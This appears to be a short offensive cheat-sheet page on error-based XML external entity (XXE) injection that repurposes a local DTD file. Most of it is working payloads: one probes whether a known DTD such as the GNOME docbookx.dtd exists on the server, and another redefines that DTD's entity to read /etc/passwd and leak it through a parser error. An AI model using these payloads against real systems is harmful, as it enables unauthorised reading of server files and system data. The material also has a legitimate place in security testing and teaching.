 #xmli #xxe #xml 


# Repurposing Local DTD
## Code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>
```

## Locate existing DTD file on server
If this payload returns an error, it means that the files does not exist.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///KNOWN_FILE.dtd">
%local_dtd;
]>
<productId>1</productId>
```

Known files and entity:
- Linux with GNOME DE
	- `/usr/share/yelp/dtd/docbookx.dtd`
	- `ISOamso`

## Injection
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///KNOWN_FILE.dtd">
<!ENTITY % KNOWN_ENTITY '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<productId>1</productId>
```